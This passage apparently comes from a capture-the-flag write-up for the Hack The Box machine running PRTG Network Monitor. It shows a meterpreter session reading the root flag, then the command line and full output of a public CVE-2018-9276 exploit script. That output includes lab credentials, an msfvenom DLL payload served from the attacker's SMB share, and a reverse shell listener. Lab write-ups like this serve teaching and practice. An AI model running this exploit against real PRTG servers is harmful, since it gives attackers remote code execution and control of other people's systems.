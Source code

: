 Hurray! We got the meterpreter session.

We can get the root flag from Administrator's directory.

```bash
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode Size Type Last modified Name
---- ---- ---- ------------- ----
100666/rw-rw-rw- 282 fil 2019-02-03 17:38:38 +0530 desktop.ini
100666/rw-rw-rw- 33 fil 2019-02-03 10:05:23 +0530 root.txt

meterpreter > cat root.txt
30189........................
```

Now, let's move to manual exploitation.

<hr>

### Exploitation #2: CVE-2018-9276 Python Exploit

For this, I simply searched on google for "**prtg network monitor exploit github**". I got [**this**](https://github.com/wildkindcc/CVE-2018-9276) exploit repository.

Simply run the exploit as its help menu says. _(This exploit may not work on latest version of Kali Linux)_ (I have redacted my lhost)

If this exploit doesn't work then you can use [**this**](https://github.com/mats-codes/CVE-2018-9276/blob/master/CVE-2018-9276_py3.py) updated version.

```bash
> python CVE-2018-9276.py --host 10.10.10.152 --port 80 --lhost 10.10.*.* --lport 4444 --user prtgadmin --password PrTg@dmin2019

[+] [PRTG/18.1.37.13946] is Vulnerable!

[*] Exploiting [10.10.10.152:80] as [prtgadmin/PrTg@dmin2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] File staged at [C:\Users\Public\tester.txt] successfully with objid of [2018]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2018] staged for execution
[*] Generate msfvenom payload with [LHOST=10.10.*.* LPORT=4444 OUTPUT=/tmp/bhzqmjfi.dll]
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Hosting payload at [\\10.10.*.*\DKMJUPUZ]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Command staged at [C:\Users\Public\tester.txt] successfully with objid of [2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2019] staged for execution
[*] Attempting to kill the impacket thread
[-] Impacket will maintain its own thread for active connections, so you may find it is still listening on <LHOST>:445!
[-] ps aux | grep <script name> and kill -9 <pid> if it is still running :)
[-] The connection will eventually time out.

[+] Listening on [10.10.*.*:4444 for the reverse shell!]
listening on [any] 4444 ...
```